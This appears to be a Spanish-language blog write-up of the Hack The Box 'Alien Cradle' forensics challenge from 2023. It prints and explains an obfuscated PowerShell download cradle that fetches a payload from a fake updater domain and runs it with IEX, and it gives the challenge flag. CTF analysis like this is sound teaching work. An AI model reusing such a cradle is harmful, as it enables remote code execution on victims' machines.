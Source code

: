 ```yaml
---
layout: single
title: Alien Cradle - CTF HTB Cyber Apocalypse 2023
excerpt: "Este es el segundo desafío forense del evento Cyber Apocalypse 2023 de Hack The Box. Se considera de dificultad very-easy y se nos proporciona un script de PowerShell pseudo-ofuscado que contiene la flag del desafío"
date: 2023-03-18
classes: wide
header:
  teaser: /assets/images/htb-cyber-apocalypse-plaintext-treasure/cyber-apocalypse-ctf-2023.jpg
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - ctf
  - forense
tags:  
  - powershell
---
```


![](/assets/images/htb-cyber-apocalypse-plaintext-treasure/cyber-apocalypse-ctf-2023.jpg)

**Dificultad:** very-easy

## Enunciado

_En un intento de que los extraterrestres encontraran más información sobre la reliquia, lanzaron un ataque dirigido a los amigos cercanos y socios de Pandora que pueden conocer información secreta al respecto. Durante un incidente reciente que se cree que fue operado por ellos, Pandora localizó un extraño script de PowerShell de los registros de eventos, también llamado soporte de PowerShell. Estos scripts generalmente se usan para descargar y ejecutar la siguiente etapa del ataque. Sin embargo, parece ofuscado y Pandora no puede entenderlo. ¿Puedes ayudarla a desofuscarlo?_

## unzip - cat - echo - tr

Se nos entrega un archivo llamado "forensics_alien_cradle.zip" el cual en su interior posee un script de PowerShell llamado `cradle.ps1`.

Los archivos .ps1 se utilizan para almacenar y ejecutar secuencias de comandos de PowerShell de manera que puedan ser reutilizados y ejecutados de forma repetitiva. Los scripts de PowerShell pueden contener una serie de instrucciones, llamadas a cmdlets (comandos de PowerShell), funciones personalizadas y lógica de programación para automatizar tareas, manipular datos, administrar sistemas y más.
```
❯ unzip -l forensics_alien_cradle.zip
Archive:  forensics_alien_cradle.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
      618  2023-03-06 12:29   cradle.ps1
---------                     -------
      618                     1 file

```
Luego de descompimir el achivo procedemos a verificar el contenido de `cradle.ps1`, el cual se ve de la siguiente manera:

```
❯ cat cradle.ps1

if([System.Security.Principal.WindowsIdentity]::GetCurrent().Name -ne 'secret_HQ\Arth'){exit};
$w = New-Object net.webclient;$w.Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;
$d = $w.DownloadString('http://windowsliveupdater.com/updates/33' + '96f3bf5a605cc4' + '1bd0d6e229148' + '2a5/2_34122.gzip.b64');
$s = New-Object IO.MemoryStream(,[Convert]::FromBase64String($d));
$f = 'H' + 'T' + 'B' + '{p0w3rs' + 'h3ll' + '_Cr4d' + 'l3s_c4n_g3t' + '_th' + '3_j0b_d' + '0n3}';
IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();
```

A modo de información el script `cradle.ps1` realiza las siguientes acciones:
  - Verifica si el nombre de usuario actual no es 'secret_HQ\Arth' utilizando `[System.Security.Principal.WindowsIdentity]::GetCurrent().Name.` Si el nombre de usuario no coincide, el script se detiene y finaliza la ejecución.
  - Crea una nueva instancia de `net.webclient` con `$w = New-Object net.webclient`.
  - Descarga el contenido de una URL específica utilizando `$d = $w.DownloadString('http://windowsliveupdater.com/updates/33' + '96f3bf5a605cc4' + '1bd0d6e229148' + '2a5/2_34122.gzip.b64')`. La URL se construye concatenando las cadenas separadas por el simbolo `+`.
  - Crea una nueva instancia de `IO.MemoryStream` utilizando `[Convert]::FromBase64String($d)` para decodificar el contenido descargado en base64.
  - Define una cadena indetificada como `$f` con el valor `'H' + 'T' + 'B' + '{p0w3rs' + 'h3ll' + '_Cr4d' + 'l3s_c4n_g3t' + '_th' + '3_j0b_d' + '0n3}'`.
  - Utiliza `IO.StreamReader` y `IO.Compression.GzipStream` para descomprimir el contenido del archivo descargado. A continuación, utiliza `ReadToEnd()` para leer todo el contenido descomprimido.
  - Finalmente, se utiliza `IEX` (Invoke-Expression) para ejecutar el contenido obtenido en el paso anterior.

Resulta bastante sencillo encontrar la flag, ya que está declarada dentro del script como valor de la variable `$f`. En este caso, se utiliza el método de ofuscación de concatenación de cadenas. Para desofuscar el mensaje, procedemos a utilizar el siguiente comando:
```
❯ echo "'H' + 'T' + 'B' + '{p0w3rs' + 'h3ll' + '_Cr4d' + 'l3s_c4n_g3t' + '_th' + '3_j0b_d' + '0n3}" | tr -dc '[:alnum:]{}_'
HTB{p0w3rsh3ll_Cr4dl3s_c4n_g3t_th3_j0b_d0n3}  
```

`tr -dc '[:alnum:]{}_'` : El comando `tr` en Linux es una herramienta que se utiliza para realizar operaciones de traducción o transliteración de caracteres en un flujo de texto. El nombre "tr" es una abreviatura de "translate" (traducir). En este caso se esta utilizando con el argumento `-d` para eliminar caracteres y -c para especificar los caracteres que queremos mantener. `'[:alnum:]{}_'` especifica que se deben mantener los caracteres alfanuméricos ([:alnum:]), los corchetes ({}) y los guiones bajos (\_). Los demás caracteres se eliminarán.

## Flag

**HTB{p0w3rsh3ll_Cr4dl3s_c4n_g3t_th3_j0b_d0n3}**
